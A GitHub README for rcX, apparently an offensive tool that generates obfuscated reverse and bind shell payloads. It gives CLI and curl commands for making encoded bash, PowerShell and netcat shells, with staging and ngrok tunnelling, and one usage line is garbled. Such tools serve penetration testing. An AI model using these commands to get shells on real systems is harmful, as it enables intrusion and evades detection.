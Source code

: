 
# <img src="https://i.ibb.co/HX4pLRN/apple-touch-icon.png" alt="rcX" width="200"/>rcX
[![Build](https://github.com/FlyfishSec/rcX/actions/workflows/build.yml/badge.svg)](https://github.com/FlyfishSec/rcX/actions/workflows/build.yml)
[![Python 2.6|2.7|3.8|3.9](https://img.shields.io/badge/python-2.6|2.7|3.6|3.7|3.8|3.9|3.10-green.svg?logo=python&logoColor=yellow)](https://www.python.org/)
[![GitHub release](https://img.shields.io/github/v/tag/FlyfishSec/rcX.svg?label=release&sort=semver&color=%22blue%22)](https://github.com/FlyfishSec/rcX/releases)
[![License](https://img.shields.io/badge/license-GPLv2-red.svg)](https://raw.githubusercontent.com/sqlmapproject/sqlmap/master/LICENSE)
## What is rcX?
### "rc" - stands for remote command or remote code.
### "X" - you can understand as assistant or tool.

  The predecessor of rcX is rsGen(A Reverse Shell Payload Generator). Currently, it is a powerful Reverse/Bind shell Generator.
  More features will be added in the future.
  
![rcX](https://cdn.rawgit.com/FlyfishSec/rcX/main/rcX-png/rcX-main.png "rcX")

## Follow me
### CLI Usage
##### 1.Get a bash reverse shell and output in tabular format.
`python rcX.py -l 127.0.0.1 -p 8888 -t bash --table`
##### 2.Custom shell path.
`python rcX.py -l 127.0.0.1 -p 8888 -t bash -s "/bin/sh"`
##### 3.Copy the specified id payload to the clipboard.
`python rcX.py -l 127.0.0.1 -p 8888 -t bash --table -c 5`
##### 4.Get a base64 encoded bash reverse shell.
`python rcX.py -l 127.0.0.1 -p 8888 -t bash -e base64`
##### 5.Get a xor encoded and obfuscated bash reverse shell.
`python rcX.py -l 127.0.0.1 -p 8888 -t b#### Examle:
ash -e base64 --obf reverse`
##### 6.Get a staging bash reverse shell.
`python rcX.py -l 127.0.0.1 -p 8888 -t bash --staging-url 0 --staging-cmd 0`
##### 7.Get a staging bash reverse shell and forward local port using ngrok tunnel.
`python rcX.py -l 127.0.0.1 -p 8888 -t bash --tunnel ngrok_jp`
##### 8.Get a Windows Powershell reverse shell.
`python rcX.py -l 127.0.0.1 -p 8888 -t powershell -P windows`
#### ...

### Web UI
> At the same time, rcX also provides a web interface. 
Use rcX as a server then you can use it with your team or friends.
> Tip: When rcX is running as a server, if the request origin is not 127.0.0.1 or localhost, the ngrok tunnel feature will be disabled and the related options will be hidden on the Front-end
#### Examle:
`python rcX.py -w`
![rsGen](https://cdn.rawgit.com/FlyfishSec/rsGen/master/Screenshot/rsgen.png "rsGen")

### Web CLI
> When rcX is running as a server, you can use curl in terminal to get the payload.
#### Example:
![rsGen](https://cdn.rawgit.com/FlyfishSec/rsGen/master/Screenshot/rsgen.png "rsGen")

##### 1.Get a bash reverse shell payload
  `curl http://127.0.0.1/linux/bash/127.0.0.4/8888`

##### 2.Base64 encoded
  `curl http://127.0.0.1/linux/bash/127.0.0.4/8888/base64`

##### 3.Base64 and hex encoded
  `curl http://127.0.0.1/linux/bash/127.0.0.4/8888/base64,hex`

##### 4.Gzip compress and replace_char(obfuscation method)
  `curl http://127.0.0.1/linux/bash/127.0.0.4/8888/gzip/replace_char`

##### 5.xor encoded and reverse(obfuscation method)
  `curl http://127.0.0.1/linux/bash/127.0.0.4/8888/xor/reverse`

##### 6.Get a windows powershell reverse shell payload
  `curl http://127.0.0.1/windows/powershell/127.0.0.4/44444`

##### 6.replace_char(obfuscation method) only without using encoder
  `curl http://127.0.0.1/windows/powershell/127.0.0.4/44444/,/replace_char`

##### 7.Only use stagers, without any encoder and obfuscator
  `curl http://127.0.0.1/linux/bash/127.0.0.4/8888/,/,/1/1`

##### 8.Get a bind linux netcat shell payload
  `curl http://127.0.0.1/bind/linux/netcat/127.0.0.4/8888`


## Support rcX

|                                            Bitcoin Address QR Code                                             |                                                 Ethereum Address QR Code                                                  |                                                  Monero Address QR Code                                                   |                                                  DOGECOIN Address QR Code                                                  |
|:--------------------------------------------------------------------------------------------------------------:|:-------------------------------------------------------------------------------------------------------------------------:|:-------------------------------------------------------------------------------------------------------------------------:|:--------------------------------------------------------------------------------------------------------------------------:|
| <img width="175" height="175" src="https://cdn.rawgit.com/FlyfishSec/rsGen/master/Screenshot/donate-btc.png"/> | <img width="175" height="175" src="https://raw.githubusercontent.com/FlyfishSec/rsGen/master/Screenshot/donate-eth.png"/> | <img width="175" height="175" src="https://raw.githubusercontent.com/FlyfishSec/rsGen/master/Screenshot/donate-xmr.png"/> | <img width="175" height="175" src="https://raw.githubusercontent.com/FlyfishSec/rsGen/master/Screenshot/donate-doge.png"/> |

**BTC**: 3F2R6KMXbJ576yJNJpjrBnhVG64Ltg1WoF

**ETH**: 0xab15323b0c7721B6B9fDf5A8089a6Ec697C9feED

**XMR**: 48rBRHh2iV27oHzXMGnjbwCLLyinpqFry6gLTAaQiFVtMRw4kqabeoFiBYqNAPCBHbKjgQezPNLwDihMSNbEPCuYP1xzCWi

**Dogecoin**: DBQATuB7t4wk56dwFqcGdqQtY8BSjL77if


